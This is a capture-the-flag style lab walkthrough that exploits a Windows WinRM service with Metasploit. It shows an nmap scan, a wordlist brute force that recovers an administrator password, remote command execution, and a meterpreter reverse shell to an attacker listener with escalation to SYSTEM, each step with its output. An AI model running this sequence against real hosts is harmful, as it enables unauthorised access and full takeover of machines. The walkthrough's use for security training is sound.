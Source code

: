 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# 🧪 Windows WinRM Metasploit

## Overview

A Kali GUI machine and a target machine running a WinRM server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the WinRM service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework exploit and auxiliary modules.

Objective: Exploit the WinRM service to get a meterpreter on the target and retrieve the flag!

Instructions:

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1
- Dictionaries to use:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

## Solution

```bash
nmap -p- -sV -T5 $TRG
Starting Nmap 7.70 ( https://nmap.org ) at 2024-03-26 03:34 IST
Nmap scan report for 10.2.21.111
Host is up (0.0024s latency).
Not shown: 65521 closed ports
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.12 seconds
```

```bash
$ service postgresql start
$ msfconsole -q
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/winrm/winrm_login) > run
```

```bash
msf5 auxiliary(scanner/winrm/winrm_login) > creds
Credentials
===========

host         origin       service          public         private     realm        private_type  JtR Format
----         ------       -------          ------         -------     -----        ------------  ----------
10.2.21.111  10.2.21.111  5985/tcp (http)  administrator  tinkerbell  WORKSTATION  Password
```

```bash
msf5 auxiliary(scanner/winrm/winrm_login) > use auxiliary/scanner/winrm/winrm_cmd
msf5 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf5 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf5 auxiliary(scanner/winrm/winrm_cmd) > run

[+] 10.2.21.111:5985     : server\administrator

[+] Results saved to /root/.msf4/loot/20240326035232_default_10.2.21.111_winrm.cmd_result_757894.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```bash
msf5 auxiliary(scanner/winrm/winrm_cmd) > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set force_vbs true
force_vbs => true
msf5 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.11.4:4444 
[*] User selected the FORCE_VBS option
[*] Command Stager progress -   2.01% done (2046/101936 bytes)
[*] Command Stager progress -  98.35% done (100252/101936 bytes)
[*] Sending stage (176195 bytes) to 10.2.21.111
[*] Meterpreter session 1 opened (10.10.11.4:4444 -> 10.2.21.111:49815) at 2024-03-26 03:54:32 +0530
[*] Session ID 1 (10.10.11.4:4444 -> 10.2.21.111:49815) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is hqpms.exe (2884) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (888)
[+] Successfully migrated to svchost.exe (888) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cat C:\flag.txt 
3c716f95616eec677a7078f92657a230
```
